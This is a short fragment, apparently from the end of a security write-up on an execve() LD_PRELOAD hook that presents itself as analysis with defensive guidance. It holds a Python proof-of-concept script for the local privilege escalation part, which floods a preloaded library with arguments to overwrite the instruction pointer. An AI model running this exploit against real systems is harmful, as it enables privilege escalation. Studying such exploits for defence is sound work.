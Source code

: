 ```bash


meh, it was a start and hopefully it'll help out someone in the future.

Cheers,

Blake Drizzle

```

## PopLockAndDropIt.py (LPE portion) to arbitrarly overwrite the Instruction Pointer
```python
#!/bin/python3

import subprocess
arguments = ["./captain_hook_poc.so"]
for _ in  range(0, 0xdead - 1):
    arguments.append(str(int(_)))


print(f"dmesg should have ip = {hex(len(arguments) )}")
subprocess.run(arguments)
print("[+] DONE")

```
**© 2025 Blake De Garza — ( Captain Hook — `execve()` LD_PRELOAD Hook: Analysis, CVE Mapping, and Defensive Guidance)**